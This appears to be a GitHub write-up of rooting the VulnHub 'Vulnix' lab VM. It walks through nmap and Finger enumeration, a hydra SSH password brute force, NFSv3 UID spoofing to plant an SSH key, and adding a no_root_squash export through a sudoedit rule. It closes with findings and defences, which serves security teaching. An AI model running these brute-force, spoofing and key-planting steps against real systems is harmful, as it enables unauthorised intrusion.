







# HackLAB: Vulnix (VulnHub)

**English** | [Русский](README_RU.md)

A write-up of my Vulnix lab in VMware, from service enumeration to a root shell. The path relied on a weak SSH password, NFSv3 trusting client-supplied UIDs, and a sudo rule allowing changes to NFS exports.

| | |
| --- | --- |
| Target | `192.168.77.100` — isolated VMware network |
| Attacker | Kali Linux |
| Target OS | Ubuntu 12.04.1 LTS (i686) |
| Goal | Retrieve the trophy from `/root` |
| Result | Root access obtained |

## 1. Reconnaissance

I started with a full TCP scan:

```bash
nmap -p- -T4 -Pn 192.168.77.100 -oN vulnix_full.nmap
```

Nmap found 17 open ports. The services worth investigating first were SSH (22), SMTP (25), Finger (79), RPCBind (111), and NFS (2049). Other open ports included POP3, IMAP, the old Unix `exec`/`login`/`shell` services, and several RPC-assigned ports.



I checked the main services more closely:

```bash
nmap -sV -sC -Pn -p 22,25,79,111,2049 192.168.77.100 -oN vulnix_services.nmap
```

The results included OpenSSH 5.9p1, Postfix, Debian fingerd, and NFS. Since Finger can disclose usernames and NFS can expose filesystem permissions, I focused on those services.


### Finger

I enumerated accounts with Metasploit:

```text
msfconsole
use auxiliary/scanner/finger/finger_users
set RHOSTS 192.168.77.100
set USERS_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
run
```

The output included `user` alongside system accounts such as `backup` and `root`. This gave me a username to test against SSH, although finding a username alone does not mean it can log in.


### NFS

```bash
showmount -e 192.168.77.100
rpcinfo -p 192.168.77.100
```

The server exported `/home/vulnix` to `*`. I noted this and returned to it after getting a shell.

## 2. Initial access

I tested the `user` account against the small `fasttrack.txt` wordlist:

```bash
hydra -l user -P /usr/share/wordlists/fasttrack.txt 192.168.77.100 ssh -t 4
```

Hydra found the password `letmein`, which worked over SSH:

```bash
ssh user@192.168.77.100
```



From the shell I checked local users:

```bash
grep '^vulnix:' /etc/passwd
```

The `vulnix` account had UID **2008**, GID **2008**, and home directory `/home/vulnix`. That matched the NFS export found earlier.

## 3. Access to the NFS home directory

I mounted the export on Kali:

```bash
sudo mkdir -p /tmp/vulnix_nfs
sudo mount -t nfs -o vers=3 192.168.77.100:/home/vulnix /tmp/vulnix_nfs
ls -lan /tmp/vulnix_nfs
```

The mount succeeded, but listing the directory returned `Permission denied`.



The server's original export and directory permissions were:

```text
/home/vulnix *(rw,root_squash)
drwxr-x--- ... 2008 2008 ... /home/vulnix
```

NFSv3 was using `AUTH_SYS`, where the client supplies numeric UIDs/GIDs. `root_squash` prevents a remote UID 0 from retaining root identity, but does not prevent a client from presenting a different UID. I tested whether matching UID 2008 on Kali would grant access.

```bash
sudo groupadd -g 2008 vulnix
sudo useradd -u 2008 -g 2008 -m vulnix
sudo -u vulnix -s
```


With UID 2008 I could write to the mounted home directory. I generated a key pair and placed its public key in `authorized_keys`:

```bash
cd /tmp/vulnix_nfs
ssh-keygen -t rsa -f /tmp/id_rsa -N ""
mkdir -p .ssh
cat /tmp/id_rsa.pub > .ssh/authorized_keys
chmod 700 .ssh
chmod 600 .ssh/authorized_keys
exit
```

The `>` above reflects what I did on this empty lab account. On a system with existing keys, overwriting `authorized_keys` would be inappropriate.



I copied the private key to Kali's SSH directory with restricted permissions, then connected as `vulnix`:

```bash
sudo install -o kali -g kali -m 600 /tmp/id_rsa /home/kali/.ssh/vulnix_lab

ssh -i ~/.ssh/vulnix_lab \
  -o IdentitiesOnly=yes \
  -o PubkeyAcceptedAlgorithms=+ssh-rsa \
  -o HostKeyAlgorithms=+ssh-rsa \
  vulnix@192.168.77.100
```

The older SSH server required the `ssh-rsa` compatibility options. `id` confirmed that I was logged in as `uid=2008(vulnix)`.

## 4. Privilege escalation

I checked sudo permissions:

```bash
sudo -l
```

The important line was:

```text
(root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
```



This was the privilege-escalation opportunity: `vulnix` could edit the configuration controlling NFS exports. I opened it with the permitted command:

```bash
sudoedit /etc/exports
```

The original entry used `root_squash`. I kept that entry and added:

```text
/root *(rw,sync,no_root_squash)
```



**Lab limitation:** the sudo rule allowed editing `/etc/exports`, not running `exportfs -ra` or rebooting. I applied the saved configuration by restarting **my own Vulnix VM through VMware**. This was a lab-owner action, not an ability obtained through the compromised account. In a real environment, applying the change would require a service reload or later restart.

After the VM came back, Kali could mount the newly exported `/root` directory:

```bash
sudo mkdir -p /mnt/root_nfs
sudo mount -t nfs -o vers=3 192.168.77.100:/root /mnt/root_nfs
findmnt /mnt/root_nfs
sudo ls -lan /mnt/root_nfs
```

I checked the impact of `no_root_squash` with a temporary file:

```bash
sudo touch /mnt/root_nfs/nfs_root_test
sudo ls -ln /mnt/root_nfs/nfs_root_test
sudo rm /mnt/root_nfs/nfs_root_test
```

The file was owned by UID 0 and GID 0 on the mounted export. This confirmed that the NFS server accepted writes with the client's root identity.


The SSH configuration permitted root login with a public key. I added the lab key to root's `authorized_keys` through the NFS mount:

```bash
sudo mkdir -p /mnt/root_nfs/.ssh
sudo chmod 700 /mnt/root_nfs/.ssh
sudo sh -c 'cat /tmp/id_rsa.pub >> /mnt/root_nfs/.ssh/authorized_keys'
sudo chmod 600 /mnt/root_nfs/.ssh/authorized_keys
```


Finally:

```bash
ssh -i ~/.ssh/vulnix_lab \
  -o IdentitiesOnly=yes \
  -o PubkeyAcceptedAlgorithms=+ssh-rsa \
  -o HostKeyAlgorithms=+ssh-rsa \
  root@192.168.77.100

whoami
id
cat /root/trophy.txt
```

The session returned `uid=0(root)`, and the trophy was retrieved.



## 5. Conclusion

Three findings made the attack possible:

1. **Weak SSH credentials:** the `user` account accepted a password found in a small wordlist.
2. **NFSv3 UID trust:** the writable home export relied on client-supplied numeric identity, allowing a client with UID 2008 to modify `vulnix`'s files.
3. **Overly broad sudo permission:** `vulnix` could edit `/etc/exports`, allowing me to introduce a dangerous `no_root_squash` export. This was an **attacker-added setting**, not part of the original NFS configuration.

Defenses include removing unneeded Finger and legacy services, enforcing stronger SSH authentication, restricting NFS exports to trusted clients, avoiding unnecessary writable exports, and removing the sudo rule for `/etc/exports`. `root_squash` helps with UID 0 but does not fix all trust issues in `AUTH_SYS`.

The screenshots are from my lab. Original text-formatted `.nmap` files were not preserved; the scan commands are included so the checks can be repeated. No private SSH key is included.

**Target:** [HackLAB: Vulnix on VulnHub](https://www.vulnhub.com/entry/hacklab-vulnix%2C48/).
